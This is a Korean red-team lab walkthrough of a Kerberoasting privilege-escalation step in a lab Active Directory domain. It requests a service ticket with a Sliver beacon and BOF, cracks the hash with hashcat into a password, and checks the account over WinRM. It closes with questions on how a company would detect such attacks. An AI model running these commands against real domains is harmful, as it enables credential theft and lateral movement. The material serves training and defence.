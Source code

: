 # 4. 권한 상승 - US

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커버로스팅 공격



<figure><img src="../.gitbook/assets/AttackPath2-kerberoasting.drawio.png" alt=""><figcaption></figcaption></figure>

블러드하운드 덤프를 뜬 뒤에 많은 것들이 가능 하지만, 살펴봐야할 것 들은:

* 현재 유저의 그룹 멤버쉽
* 현재 유저가 속한 그룹들의 DACL 여부
* 현재 유저의 로컬 관리자 권한 여부

들이 있다. 안타깝게도 johndoe.smith는 가장 낮은 권한의 `USHO-Marketing` 그룹 소속이였으며, 그 그룹을 포함한 모든 기본 그룹 `Users, Domain Users, Authenticated Users` 또한 별 다른 권한이 없었다. 블러드하운드를 돌렸을 때 `--stealth` 플래그를 줬고, 작전 보안을 위해 Sessions는 구하지 않았기 때문에 로컬 관리자 권한 또한 알 수가 없다.

일단은 johndoe.smith가 별다른 DACL이 없기 때문에, 권한 상승에 사용될 수 있는 커버로스팅 가능한 유저를 알아본다.

<figure><img src="../.gitbook/assets/4-sf-mssql-svc.png" alt=""><figcaption></figcaption></figure>

`SF_MSSQL_SVC@us.rt.local` 유저가 `SFMSSQLSVC/sql01.us.rt.local:1433` SPN이 설정된 도메인 서비스 유저라는 것을 알아냈기 때문에, 해당 유저의 서비스 티켓(ST)을 받아온다. 탐지를 우회하기 위해 BOF(Beacon Object File)를 이용한다.

```
// BOF-Roast를 이용해 SF_MSSQL_SVC의 서비스티켓 받아오기 
sliver (TOUGH_BREADCRUMB) > bof-roast SFMSSQLSVC/sql01.us.rt.local:1433

[*] Got output:
[+] Target SPN: SFMSSQLSVC/sql01.us.rt.local:1433
[+] Got Ticket! Convert it with apreq2hashcat.pyYIIHJgYJKoZIhvcSAQICAQBuggcVMIIHEaADAgEFoQMCAQ6iBwMFACAAAACjggUyYYIFLjCCBSqgAwIBBaENGwtVUy5SVC5MT0
NBTKIvMC2gAwIBAqEmM < . . . 생략 . . . > 

// 크래킹 가능한 포멧으로 전환 
vim kerberoast.aprep
cat kerberoast.aprep | tr -d '\n' > kerberoast.aprep2
python3 apreq2hashcat.py kerberoast.aprep2 | tee kerberoast.hash

// Hashcat을 사용해 해시 크래킹 
└─# hashcat -a 0 -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt             
hashcat (v6.2.6) starting

< . . . 생략 . . . > 
cb0af055bc10b819b35800ec0018ab193fa8657261422a3e35d57d0d:sql123
                                                          
Session..........: hashcat
Status...........: Cracked
```

커버로스팅이 다행히 정상적으로 진행됐고, `US\SF_MSSQLSVC:sql123` 이라는 계정 정보를 얻었다. 이제 SF\_MSSQL\_SVC 유저의 비밀번호가 맞는지 확인해본다.

```
sliver (TOUGH_BREADCRUMB) > winrm -- -i sql01.us.rt.local -u us.rt.local\\sf_mssql_svc -p 'sql123' -c whoami 

[+] Arguments processed
       hostname: sql01.us.rt.local
        command: whoami
       username: us.rt.local\sf_mssql_svc
       password: sql123

us\sf_mssql_svc
```

계정 정보를 확인하다 sql01.us.rt.local에 winrm까지 가능하다는 것을 알았다. 따라서 해당 계정은 sql01.us.rt.local에 로컬 관리자 권한이나, 최소한 `Remote Management Users` 권한을 갖고 있을 확률이 높아졌다.



<figure><img src="../.gitbook/assets/AttackPath3-before-sql01.drawio.png" alt=""><figcaption></figcaption></figure>

## 우리 회사는

* 커버로스팅 공격을 탐지하고 방지할 수 있는가?
* SPN 설정된 유저를 향해 RC4 암호화된 서비스 티켓을 요청하는 엔드포인트 및 유저를 탐지할 수 있는가?
* 커버로스팅에 취약한 SPN 설정된 서비스 계정을 사용하고 있지는 않은가?

